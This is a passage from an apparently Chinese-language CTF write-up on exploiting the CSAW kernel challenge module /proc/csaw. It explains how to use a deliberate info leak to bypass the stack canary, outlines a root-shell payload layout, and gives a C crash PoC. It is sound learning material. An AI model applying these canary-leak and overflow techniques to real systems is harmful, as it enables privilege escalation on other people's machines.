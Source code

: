 这里，从用户空间做拷贝的时候未作任何check，导致过长的字符串可以覆盖到返回地值，这种情形和我们第二篇文章中遇到的情况一样，那么是不是就按照那个文章做利用就可以了呢？并不是，从注释中看出，出题者是开启了kernel CANARY选项的，也就是说，我们直接去覆盖的话，会先覆盖CANARY，然后就会过不了check从而kernel panic。

是不是这就没法玩了呢？一般来说，对于CANARY这种情况，我们采取的策略要么是leak，要么就是crack。继续分析代码，看到read部分：



```
int
csaw_read(char *page, char **start, off_t off, int count, int *eof, void *data)
`{`
    char buf[MAX_LENGTH];
    printk(KERN_INFO "csaw: called csaw_readn");
    *eof = 1;
    memset(buf, 0, sizeof(buf));
    strcpy(buf, "Welcome to the CSAW CTF challenge. Best of luck!n");
    //could leak canary here!!!!
    memcpy(page, buf + off, MAX_LENGTH);
    return MAX_LENGTH;
`}`
```

拼接了栈上一个变量，然后拷贝到了用户空间，而且拷贝的长度很长，这就是出题人故意留下的info leak，好让我们可以leak CANARY的值。

那么现在，我们拥有一个info leak，拥有一个stack bof，两者结合，就是第二篇文章中的利用方式了。只需要组合payload为：

```
junk+CANARY+ebp+payload_addr
```

我们就可以像之前一样去get root shell啦~

<br>

**0x03 : Poc**

poc的代码很简单，直接触发漏洞就可以，但是这种直接就kernel panic的。



```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
int main(int argc,char *argv[])`{`
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd)`{`
        printf("errorn");
        exit(1);
    `}`
    char poc[64];
    memset(poc,0x41,64);
    printf("Triger bug:n");
    write(fd,poc,64);
    return 0;
`}`
```
